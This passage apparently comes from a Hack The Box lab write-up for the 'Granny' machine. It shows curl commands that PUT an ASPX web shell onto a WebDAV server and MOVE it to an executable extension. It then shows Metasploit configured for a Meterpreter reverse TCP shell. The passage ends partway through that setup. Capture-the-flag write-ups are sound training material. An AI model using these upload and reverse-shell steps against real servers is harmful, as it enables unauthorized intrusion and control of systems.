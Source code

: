 ```sh
┌─[george@parrot]─[~/HTB/boxes/granny]
└──╼ $ curl -X PUT http://10.10.10.15/shell.txt --data-binary @shell.aspx
┌─[george@parrot]─[~/HTB/boxes/granny]
└──╼ $
```

And this looks way better

![Much Better](/assets/img/granny/better.png)

Since nmap told us we have the `MOVE` capabilities on the server. I will still leverage `curls` extensive features to rename the file to an `aspx` extension so that the server  can process it.

```sh
┌─[✗]─[george@parrot]─[~/HTB/boxes/granny]
└──╼ $ curl -X MOVE --header 'Destination:http://10.10.10.15/shell.aspx' 'http://10.10.10.15/shell.txt'
```
On my other terminal I will spin up `metasploit` and set up a reverse_tcp on my `tun0` interface.

```sh
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.7       yes       The listen address (an interface may be specified)
   LPORT     9001             yes       The listen port


Exploit target:
```